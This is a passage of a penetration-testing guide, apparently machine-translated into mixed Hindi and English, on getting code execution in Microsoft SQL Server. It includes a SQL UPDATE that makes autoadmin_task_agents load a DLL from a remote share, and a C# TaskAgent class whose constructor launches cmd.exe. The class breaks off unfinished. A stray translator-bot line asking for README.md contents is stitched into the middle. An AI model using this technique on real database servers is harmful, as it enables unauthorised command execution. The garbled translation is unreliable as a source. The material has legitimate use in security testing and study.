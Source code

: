### RCE with MSSQL User Defined Function - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

यह संभव है कि **load a .NET dll within MSSQL with custom functions**। हालांकि, इसके लिए **requires `dbo` access** चाहिए, इसलिए आपको डेटाबेस से **as `sa` or an Administrator role`** के रूप में कनेक्ट होना होगा।

[**Following this link**](../../pentesting-web/sql-injection/mssql-injection.md#mssql-user-defined-function-sqlhttp) उदाहरण देखने के लिए।

### RCE with `autoadmin_task_agents`

[**to this post**](https://exploit7-tr.translate.goog/posts/sqlserver/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp) के अनुसार, यह भी संभव है कि एक remote dll लोड करके MSSQL को इसे execute कराया जा सके, कुछ इस तरह:
```sql
update autoadmin_task_agents set task_assembly_name = "class.dll", task_assembly_path="\\remote-server\\ping.dll",className="Class1.Class1";
```
I don't see the README.md contents. कृपया वह फ़ाइल की सामग्री यहाँ पेस्ट करें जिसे आप हिंदी में अनुवादित करवाना चाहते हैं।
```csharp
using Microsoft.SqlServer.SmartAdmin;
using System;
using System.Diagnostics;

namespace Class1
{
public class Class1 : TaskAgent
{
public Class1()
{

Process process = new Process();
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c ping localhost -t";
process.StartInfo.UseShellExecute = false;
process.StartInfo.RedirectStandardOutput = true;
process.Start();
process.WaitForExit();
}

public override void DoWork()
{

}

public override void ExternalJob(string command, LogBaseService jobLogger)
{

}

public override void Start(IServicesFactory services)
{

}

public override void Stop()
{

}


public void Test()
```